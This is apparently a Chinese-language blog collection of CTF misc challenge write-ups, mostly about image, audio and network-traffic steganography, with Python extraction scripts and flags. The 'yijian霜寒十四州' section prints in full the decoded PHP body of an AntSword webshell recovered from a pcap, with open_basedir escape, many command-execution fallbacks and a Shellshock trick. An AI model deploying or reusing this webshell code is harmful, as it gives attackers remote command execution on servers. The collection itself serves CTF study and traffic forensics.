        data = f.read().split()

    flag = ""
    for item in data:
        if item.isupper():
            flag += item
        else:
            flag += chr(int(item,32))
            
    print(flag) 
    # D5A1S0C-TbF7{4245-c5a9d492ae6b-66eb64ca7-64}

if __name__ == "__main__":
    func()
```

最后解个栅栏密码即可得到最后的flag：`DASCTF{25cad9a6-6b4a-4510-b744-5942eb6e6c76}`


## 题目名称 the+year+we+were+16（2025黑龙江省赛）

题目附件给了一张文本头部数据被篡改后的 BMP 图片，010 打开提示报错


当我们把模板中的这两个参数修正后，虽然 010 还提示报错，但是BMP 图片已经能正常显示了


然后我们拿 stegsolve 打开，一个 Plane 一个 Plane 地查看，发现以下几个平面存在隐写的信息


因此我们把这几个平面上对应的信息提取出来，即可得到最后的 flag：`DASCTF{RGB_five_six_five_takes_you_back_to_old_live}`


## 题目名称 IEC104

> IEC104协议分析与利用，针对IEC104协议应用层U 帧、I帧、S帧进行分析，对I帧数据中的遥控数据进行篡改，获取遥控数据下写时的flag值。

附件给了一个流量包，根据题面提示直接用 tshark 提取并分析I帧数据

```bash
tshark -r IEC-104.pcap -T fields -Y '_ws.col.protocol == "IEC 60870-5 ASDU"' -e 'iec60870_asdu.siq' > out.txt
```

然后 用 CyberChef 把 0x00 转为 0，0x01 转为 1


逆序一下，然后二进制转字符串，再逆序回来即可得到最后的 flag

`flag{f8617e2a5e7df41823615de093b095de5175e2fce58e14af74bec73c81f0d77a}`


当然也可以直接用 PuzzleSolver 一把梭


## 题目名称 comstego_14

题目附件给了一个压缩包，压缩包注释中给了如下提示：


解压压缩包可以得到一张 JPG，010 打开可以发现 JPG 末尾藏了另一张 JPG


尝试手动提取出来，发现提取出来的这张 JPG 末尾还有一张 JPG，因此我们再次提取

可以得到三张 JPG，并且图片显示的内容都差不多


再次用 010 打开这三张 JPG 图片，发现这三张图片的数据长度是一样的


因此这个时候，我们就可以尝试用 010 的比较功能去 diff 一下，从而快速定位关键点


然后结合之前得到的提示，flag 的 ASCII 码是整体减 1 了的

经过组合和尝试，发现其实三张图片整个隐写思路其实是这样：

> 把 flag 的 ASCII 整体减 1，然后拆分成三段，第一段在原图的 0x1FA1，第二段在 1.jpg 的 0x574A，第三段在 2.jpg 的 0x77A0

我们将以上三段数据提取出来，ASCII 码整体加 1 即可得到最后的 flag：`flag{5e6e6ee1812bf00857ce8011c862ef16de}`


## 题目名称 Easyimg（2022天权信安杯）

题目附件给了一个加密的压缩包，尝试弱密码爆破，可以得到八位纯数字弱密码：`99999999`

解压后得到一个 img.JPG，但是 010 打开发现其实是一张 PNG 图片


因此我们改后缀为 .png，再用 010 打开，发现 PNG 文件尾部数据被篡改（逆序）了


并且发现末尾的数据中存在 JPG 图像


尝试手动提取出来可以得到下图：


结合之前的 PNG 数据，一共 180 个 IDAT 块，18 个 IDAT 块作为一组，把每组数据的位置按照上图重置了

因此我们尝试根据上图的提示按顺序提取一下 IDAT 块，重新排列一下即可得到下图

```python
data = [1,7,9,8,5,3,2,4,6,10]

for idx,item in enumerate(data):
    print(f"组{item}: {(idx)*18+1},{(idx+1)*18}")
    
# 组1: 1,18
# 组7: 19,36
# 组9: 37,54
# 组8: 55,72
# 组5: 73,90
# 组3: 91,108
# 组2: 109,126
# 组4: 127,144
# 组6: 145,162
# 组10: 163,180
```


用 stegsolve 打开修复得到的 PNG 图片，浏览一下不同通道的各个平面，在下面这个平面可以看到下图


看到这个，我感觉可能是左右两边按列提取数据然后异或，并且 29424 bits = 3678 bytes

对于这种类型的隐写，我们从 stegsolve 中看出来是按行读取还是按列读取后

可以用 PS 打开来确定两部分读取的顺序，就是通过看在哪里中断的来判断是从左向右还是从右向左


确定好顺序后，我们直接写个脚本提取下并异或即可

```python
from PIL import Image
from pwn import *
import libnum


def func():
    img = Image.open('flag.png')
    w,h = img.size
    
    a_list = []
    for x in range(w):
        for y in range(h):
            r,g,b,a = img.getpixel((x,y))
            a_list.append(str(a >> 1 & 1))
    data1 = libnum.b2s(''.join(a_list[:29424]))

    a_list = []
    for x in range(w-1,0,-1):
        for y in range(h):
            r,g,b,a = img.getpixel((x,y))
            a_list.append(str(a >> 1 & 1))
    data2 = libnum.b2s(''.join(a_list[:29424]))

    data3 = xor(data1,data2)
    print(len(data3))
    print(data3.decode())


if __name__ == '__main__':
    func()
# =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
```

最后我们逆序一下得到的内容，再解码 base64 可以得到一个 rar 压缩包

下载下来解压或者直接 Cybefchef 中看都能得到最后的 flag：`flag{377c9c0c-3d40-44cb-b488-e0464e697b6d}`


## 题目名称 misc_1

附加给了一张 `encrypt.jpg` 和一个加密的 7z 压缩包

010 打开 JPG 图片，发现末尾藏了一张 PNG 图片，手动提取出来后，发现两张图片的内容是一样的


经过尝试发现是 `BlindWaterMark` 盲水印，用原项目或者别的工具处理一下可以得到下图

> 也是第一次遇到 PNG 和 JPG 一起构成的 BWM 盲水印，之前遇到的都是两张一样格式的图片


得到 7z 的解压密码：`MO@14UX9N#`，解压后可以得到下面这张只有一半的二维码


010 打开提示 CRC 报错，因此手动改一下图片宽度或者直接根据 CRC 爆破图片宽高


调整图片高度后即可得到下图，扫码得到 flag：`flag{2FF547637DD54842DB9880B13D5BF363}`


## 题目名称 像素（2025 安徽省赛）

> 题面信息：R>=8,B<=8,G=0

题目附件给了一个`e1.bmp`

zsteg 扫一把，可以看到一些可疑信息


然后也可以到 stegsolve 中看，发现能显示出来部分隐写的内容


我们用 PS 打开这张图片，发现末尾的像素全是`(0,0,0)`，因此很明显是一行一行隐写下来的

并且发现所有像素的 G 通道的数据都是 0，所以猜测 G 通道是没有用来隐写数据的


结合之前 stegsolve 得到的部分隐写内容，发现这部分内容都是在像素只有 B 通道有值的情况下提取出来的

这种情况下提取出来的值转 ASCII 后都是英文可打印字符

而图中的像素还有另外一种情况，就是 R 和 B 通道都有值，但是 G 通道的值是 0

结合题面信息，猜测是 R 的数值在高8位而 B 的数值在低8位，这种情况下的 ASCII 值就比较大

尝试输出几个后发现是中文汉字，因此我们写个脚本提取出所有隐写的内容即可

```python
from PIL import Image

# R>=8,B<=8,G=0

def func():
    res = ''
    pixel_list = []
    img = Image.open('e1.bmp')
    w,h = img.size # 35 35
    # print(w,h) 
    out_img = Image.new('RGB',(w,h))
    for y in range(h):
        for x in range(w):
            r,g,b = img.getpixel((x,y))
            pixel_list.append((r,g,b))
            if (r == 0) and (g == 0) :
                res += chr(b)
            else:
	            # R的数值在高8位, B的数值在低8位
                tmp = (r << 8) | b
                res += chr(tmp)

    print(res)
    
if __name__ == '__main__':
    func()
```

运行以上脚本后即可提取出如下内容，最后的 flag: `flag{像素的隐写isflagAhi隐写像素}`

```
CTF的竞赛方向？
由于CTF知识面很广，一个人不可能面面俱到，所以选手们通常都会选择一个自己喜欢的方向深入研究，，通常分为五个方向:MISC、CRYPTO、WEB、REVERSE、PWN：
杂项MISC安全杂项涉及到古典密码学、编码、隐写术、电子取证、数据分析等广度极高的安全手段及利用方法，选手需要确定手段或者方法，反向的去破译取证从而拿到flag，MISC是CTF比赛中广度最高的方向，需要各个方向都有涉猎。——嗯？题不知道丢哪？没事丢杂项就好！
密码学CRYPTO密码学简单讲就古典密码和现代密码，当然大多数古典密码的题目目前都被划分到MISC中，目前的密码学反而更偏向现代密码学，常出现分组密码、流密码和公钥密码体制的考察，对初等数学、基本的数论有一定需求。选手通常被给予一个加密程序，抹去明文之后留下的加密过程和输出，要求选手通过密码体制的弱点来还原flag。
网络攻防WEB着重于Web应用程序，框架，浏览器以及各类Web服务器的安全问题；挖掘/利用/研究各类Web系漏洞，探究其形成原理、利用方式及修补方案。题目常见的漏洞类型包括注入、XSS、文件包含、代码执行、上传、SSRF等，选手通过漏洞直接或者间接拿到shell或者得到某些关键文件从而得到Flag。
逆向工程ReverseEngineering研究各类操作系统，编译器，虚拟机的底层架构，以Windows和Linux为平台，学习可执行程序的逆向分析技术，如软件调试与破解，对已经编译完成的可执行文件进行分析，研究程序的行为和算法，然后以此为依据，计算出出题人想隐藏的flag
二进制漏洞利用PwnPwn在安全领域是「攻破」的意思。主要研究程序漏洞利用技术，例如栈溢出、堆管理器的漏洞利用和其他高阶技巧；挖掘和分析各类基于编译型语言的漏洞。二进制攻击涉及到栈溢出、堆溢出、格式化字符串漏洞等二进制漏洞，选手需要借助这些漏洞获取计算机权限，从而拿到flag
SOMETHINGNEW随着计算机技术的发展，也有一些新的方向如「区块链Blockchain」「AI安全」「物联网IoT」等的加入。这些内容我们会在进阶文档中更新。
如果你看着五个方向思考良久，一下子不太确定自己的方向，这里提供一些小参考，你可以通过下面两个方向先熟悉一下CTF的一些流程，找找——嗯，感觉~
网络攻防WEB
在传统的CTF线上比赛中，Web类题目是主要的题型之一。
相较于二进制、逆向等类型的题目，参赛者不需掌握系统底层知识;
相较于密码学、以及一些杂项问题，不需具特别强的编程能力，故入门较为容易。
杂项MISC

MISC具有极大的趣味性；
flag{像素的隐写isflagAhi隐写像素}
MISC的入门难度包含维度很广但都很简单，非常适合用来快速熟悉CTF的比赛模式和规则。
```

## 题目名称 KOF

附件给了下面这张 PNG 图片


stegsolve 看一下，发现每个通道的 `Plane 1` 存在明显的隐写痕迹


| <br><br> | <br><br> | <br><br> |
| --------------------------------------------- | --------------------------------------------- | --------------------------------------------- |

提取隐写的内容，然后解个十六进制即可得到 flag: `flag{059c7eba4f3f451fb5f4}`


## 题目名称 代码之神

题目附件给了一个 txt 文件，里面的内容如下：


直接写个脚本隔一位提取其中的字母和符号，然后按字频排序一下即可得到flag：`flag{G0d-OF~CoDe}`

```python
with open("1.txt",'r') as f:
    data = f.read()
res1 = ""
res2 = ""
for idx,item in enumerate(data):
    if idx %2 == 0:
        res1 += item
    else:
        res2 += item
print(res1)
print(res2)
```


## 题目名称 modbus

附件给了一个流量包，结合题目名称猜测关键信息应该在 modbus 流量中

因此我们直接用 tshark 提取一下通过 modbus 传输的数据

```bash
tshark -r modbus.pcapng -T fields -Y '(modbus.func_code != 3) && (ip.src == 192.168.142.152)' -e modbus.regval_uint16 > 1.txt
```

提取出来后，可以得到一张 PNG 图片，并且 PNG 图片末尾还有一个加密的 zip 压缩包


提取出来的 PNG 显示可能有点问题，但是 IDAT 块都是正常的

因此我们可以手动补上 PNG 文件头，然后爆破一下图片的宽高即可


上面这张是工控里的梯形图，我们可以看到里面有 pass 和 key 两个输出，计算一下可以得到：

key：2020304249

pass：1184485120

把 pass 作为解压密码解压 zip 可以得到 flag.txt，其中内容如下：

```
VQsCVg0EBAEODQIKAVYHUVIABg4FBgoDDVIFBQEPBgA=
```

然后把 key 转 bytes 可以得到一个`xkey`

```python
from Crypto.Util.number import long_to_bytes

data = 2020304249
print(long_to_bytes(data))
# b'xkey'
```

但是不知道怎么用这个 `xkey` 和上面 base64 编码后的密文得到最后的 flag

## 题目名称 KobeTea

题面信息如下：

> 孩子们想喝KobeTea吗，快解开这个压缩包，救出困在里面的牢大吧? 别白费劲了，力大如牢大都无法肘开，注意观察直升机的制作方法吧! 提示：分支是main

附件给了一个压缩包，发现是ZipCrypto+Store，明显提示了我们需要明文攻击


并且发现里面有个.git的目录可以利用


可以去随便找个项目，把里面.git目录中的文件拿出来压缩一下，然后比较一下CRC


发现CRC能对上，因此我们就可以开始明文攻击了

这种带目录结构的我个人比较喜欢直接用下面这个软件攻击


用上面的密码解压后用vscode打开，选一下分支即可得到flag：`flag{0ne_bo77le_o1ny_n3ed_4_Yu@n}`


## 题目名称 yijian霜寒十四州（2025 全国大学生信息安全竞赛 新疆赛区）

附件给了一个流量包，打开看一下流量的特征，发现是蚁剑流量

 根据响应的格式，很容易知道这个马用的是 ROT13 的编码器

我们追踪 HTTP 流到 HTTP 流84


CyberChef 解码一下可以得到

```
This trip left some content that uses the same encoder as the Trojan horse,BUDBCYAwEJso0OZyzTyVen7cQNz9qHc/33SGdd1QyqhVC2QQU8dJnRg7/wY=
```


提示了我们用的是和木马一样的编码器，因此我们回头去找那个木马


发现这个木马的编码器是先 base64 解码然后 inflate 解压了

因此我们直接用这个脚本解一下之前得到的 base64 即可得到 flag

`flag{175374be-4547-f6f6-2232-14d7524d30a5}`

```php
<?php
$data = "BUDBCYAwEJso0OZyzTyVen7cQNz9qHc/33SGdd1QyqhVC2QQU8dJnRg7/wY=";
echo @gzinflate(base64_decode($data));
//flag{175374be-4547-f6f6-2232-14d7524d30a5}
?>
```

当然也可以直接用 CyberChef 解码


这道题到这里其实也就结束了，但是我这里还是理一下这个马的完整逻辑吧

首先就是攻击者在 HTTP 流 43 中上传了一个木马


我们可以看到这个马的参数是从 hope 变量中获取的，然后解 base64 以及 inflate 解压

因此我们来看一下后续请求中 hope 变量中的值，这里就拿 HTTP 流 84 为例


稍微处理一下就可以得到 hope 变量中的值

```
c0gtS8zRcEivysxLy0ksSdVISixONTOJT0lNzk9J1VCJD/APDomON6gwNk40t0yzTLUwSk4yjdXU1LQGAA==
```

按照之前木马的逻辑，我们解码一下 hope 变量


可以看到这里又套了一层，参数需要去 `_0x33a79f9e82cb5` 变量中获取

因此我们提取并解码一下


```php
<?php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.9315a2db7e5d";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return str_rot13($out);
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "80" . "324";
    echo @asenc($output);
    echo "5a9" . "ae81";
}

ob_start();
try {
    $p = base64_decode(substr($_POST["nd940e9a247057"], 2));
    $s = base64_decode(substr($_POST["ca662241d33bb8"], 2));
    $envstr = @base64_decode(substr($_POST["uf4fe7e98c2272"], 2));
    $d = dirname($_SERVER["SCRIPT_FILENAME"]);
    $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
    if (substr($d, 0, 1) == "/") {
        @putenv("PATH=" . getenv("PATH") . ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    } else {
        @putenv("PATH=" . getenv("PATH") . ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");
    }
    if (!empty($envstr)) {
        $envarr = explode("|||asline|||", $envstr);
        foreach ($envarr as $v) {
            if (!empty($v)) {
                @putenv(str_replace("|||askey|||", "=", $v));
            }
        }
    }
    $r = "{$p} {$c}";
    function fe($f)
    {
        $d = explode(",", @ini_get("disable_functions"));
        if (empty($d)) {
            $d = array();
        } else {
            $d = array_map('trim', array_map('strtolower', $d));
        }
        return (function_exists($f) && is_callable($f) && !in_array($f, $d));
    };
    function runshellshock($d, $c)
    {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") != FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }
            } else {
                return False;
            }
            $output = @file_get_contents($tmp);
            @unlink($tmp);
            if ($output != "") {
                print($output);
                return True;
            }
        }
        return False;
    };
    function runcmd($c)
    {
        $ret = 0;
        $d = dirname($_SERVER["SCRIPT_FILENAME"]);
        if (fe('system')) {
            @system($c, $ret);
        } elseif (fe('passthru')) {
            @passthru($c, $ret);
        } elseif (fe('shell_exec')) {
            print(@shell_exec($c));
        } elseif (fe('exec')) {
            @exec($c, $o, $ret);
            print(join("
", $o));
        } elseif (fe('popen')) {
            $fp = @popen($c, 'r');
            while (!@feof($fp)) {
                print(@fgets($fp, 2048));
            }
            @pclose($fp);
        } elseif (fe('proc_open')) {
            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
            while (!@feof($io[1])) {
                print(@fgets($io[1], 2048));
            }
            while (!@feof($io[2])) {
                print(@fgets($io[2], 2048));
            }
            @fclose($io[1]);
            @fclose($io[2]);
            @proc_close($p);
        } elseif (fe('antsystem')) {
            @antsystem($c);
        } elseif (runshellshock($d, $c)) {
            return $ret;
        } elseif (substr($d, 0, 1) != "/" && @class_exists("COM")) {
            $w = new COM('WScript.shell');
            $e = $w->exec($c);
            $so = $e->StdOut();
            $ret .= $so->ReadAll();
            $se = $e->StdErr();
            $ret .= $se->ReadAll();
            print($ret);
        } else {
            $ret = 127;
        }
        return $ret;
    };
    $ret = @runcmd($r . " 2>&1");
    print ($ret != 0) ? "ret={$ret}" : "";;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
?>
```

解码后我们就可以得到这个木马的主体了

分析上面的代码我们可以得到，执行的命令是由 `ca662241d33bb8` 变量传入的

就是前面会有两字节的干扰数据，需要我们删除后再解码


解码响应的流程也是一样，删除上面代码中的干扰字符后 ROT13 解码即可


如果想要更干净的响应，也可以把上面执行命令中的干扰字符也删除

## 题目名称 Copyright隐写

附件给了一个flag.mp3，010打开查看，发现copyright字段的属性存在交错出现的规律（即不是所有都是同一个值）


并且我们可以借助010的模板功能，尝试发现copyright的属性是通过每块的第四字节决定的


具体的规律如下，是根据这个值二进制的倒数第四bit决定的


然后我们还可以发现每一块数据的长度并不是都相同的，是由padding这个字段决定的，比如下面这个417和418的数据块


和之前copyright同理，我们也可以找一下padding的规律，发现是由第三字节的倒数第二个bit决定的


至此，我们的思路就很明确了，根据padding和copyright分布的规律写个脚本提取一下隐写的信息即可

```python
import libnum

st = 0x0  # 起始
ed = 0x1FFD70  # 结束
res = ''

files = open('flag.mp3', 'rb')   # 以二进制打开文件
i = st

while i < ed:  # 结束位置
    files.seek(i+2, 0)  # 指针跳转到 0的位置加上i 的位置
    padding_data = files.read(1)[0]  # 读取一个字节
    # print(hex(padding_data),end=' ')
    padding_bit = (padding_data >> 1) & 1  # 该字节
    files.seek(i+3, 0)  # 指针跳转到 0的位置加上i 的位置
    copyright_data = files.read(1)[0]  # 读取一个字节
    steg_bit = (copyright_data >> 3) & 1
    res += str(steg_bit)
    if i == 0:
        i += 416     # 第一个数据块特殊处理
    else:
        if padding_bit == 0:
            i += 417 # 视具体情况修改
        else:
            i += 418 # 视具体情况修改

print(f"len(res) = {len(res)}")
print(f"len(res) / 8 = {len(res) / 8}")
res = res.ljust((len(res) + 7) // 8 * 8, '0')  # 在右侧补0到8的倍数
print(res[:350])
print(libnum.b2s(res))

# len(res) = 5017
# len(res) / 8 = 627.125
# 00100110011011000110000101100111011110110011100000110101011000100110000100110000011001000110000100110010001101000011010100110111001100100110011000110111001100010011001000110011011000010110011001100011001101000110001000110000001110000110011000110100011001000011001001100001011001010011001100110111011111010000000000000000000000000000000000000000000000        
# b'&lag{85ba0da24572f7123afc4b08f4d2ae37}'
```

就是这道题这里要注意，第一个数据块和第三个数据库，010的模板这里没有正确识别出来

并且第一个数据块的长度是416，因此需要我们特殊处理一下


然后出题人这里疏忽了，第二个数据块开头的第三字节应该是0x6c，而不是0x64

这个错误导致了我们提取出来的flag头不是`flag{`，不过问题不大，也能看出最后的flag

`flag{85ba0da24572f7123afc4b08f4d2ae37`


---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/bb1da35/  

